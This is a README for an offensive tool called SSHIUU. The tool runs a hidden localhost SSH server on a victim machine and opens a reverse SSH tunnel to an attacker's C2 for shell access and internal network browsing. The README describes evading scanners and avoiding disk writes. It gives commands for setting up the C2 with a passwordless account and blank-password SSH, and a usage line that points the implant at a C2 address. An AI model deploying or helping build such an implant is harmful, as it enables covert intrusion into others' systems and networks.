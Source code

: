 # SSHIUU
![alt text](https://media1.tenor.com/images/616ff5ed375ce21b68e1809efab574db/tenor.gif?itemid=9888637)

This is a statically compiled tool (no dependencies needed) that can be used to create a SSH server and as SSH client. It will firstly, spin up an SSH server (listening in `localhost` and by default in port 2222), create certificates for it and finally create a reverse SSH tunnel with the C2. Due to the SSH server listens at `localhost`, automated scanners won't be able to detect it. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple and not interactive shell.

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of this as root
Create a new user:
```adduser --disabled-password anonymous```

Disable his shell
```usermod -s /bin/false anonymous```

Make the password actually empty:

```sed -i -re 's/^anonymous:[^:]+:/anonymous::/' /etc/passwd /etc/shadow```

Allow blank passwords for SSH sessions in PAM: edit `/etc/pam.d/sshd` and replace the line that reads @include common-auth with:
```auth [success=1 default=ignore] pam_unix.so nullok
auth requisite pam_deny.so
auth required pam_permit.so
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Client
Compiling the client is somehow tricky because `libssh` (the library we use to handle SSH communications) does not support creating a SSH server using certificates from memory but they need to exist in disk. Since we are 3l373 hackers we don't want to drop any file to disk so I modified the `libssh` code. 

You can find the modified code [here](https://github.com/illera88/libssh_mod) or getting the prebuilt libraries [here](https://github.com/illera88/PrecompiledLibraries/tree/master/windows/libssh_mod)

To compile it just make sure you add the includes and libraries for:
- libssh_mod 
- zlib
- openssl

You can find all of them already prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).


## Using it
It's very easy: 

```
SSHIUU.exe 192.168.15.135
```
